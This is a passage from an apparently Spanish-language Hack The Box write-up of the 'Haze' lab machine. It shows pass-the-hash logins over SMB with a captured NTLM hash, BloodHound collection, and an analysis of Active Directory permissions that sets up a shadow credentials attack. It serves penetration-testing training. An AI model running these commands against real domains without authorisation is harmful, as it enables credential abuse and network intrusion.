 ### Use Alternate Authentication Material

```terminal
nxc smb 10.10.11.61 -u 'Haze-IT-Backup$' -H '84d6a733d85d9e03f46eba25b34517a9'
SMB         10.10.11.61     445    NONE             [*]  x64 (name:) (domain:) (signing:True) (SMBv1:False)
SMB         10.10.11.61     445    NONE             [+] \Haze-IT-Backup$:84d6a733d85d9e03f46eba25b34517a9
```

```terminal
/home/kali/Documents/htb/machines/haze:-$ bloodhound-python -u 'Haze-IT-Backup$' --hashes ':84d6a733d85d9e03f46eba25b34517a9' -ns 10.10.11.61 --zip -c All -d haze.htb -dc dc01.haze.htb
```

BloodHound indica que la cuenta `Haze-IT-Backup$` posee el privilegio `WriteOwner` sobre el grupo `Support_Services`. Este privilegio permite modificar el propietario del objeto, lo que habilita la posibilidad de establecer controles totales sobre el mismo.

![](assets/img/htb-writeup-haze/haze2_2.png)

Por otro lado, el grupo `Support_Services` cuenta con los permisos `ForceChangePassword` y `AddKeyCredentialLink` sobre el usuario `edward.martin`. El primero habilita el cambio forzado de contraseña, mientras que el segundo permite anexar claves públicas al atributo `msDS-KeyCredentialLink`, lo cual habilita la ejecución de un [shadow credential attack](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials#shadow-credentials).
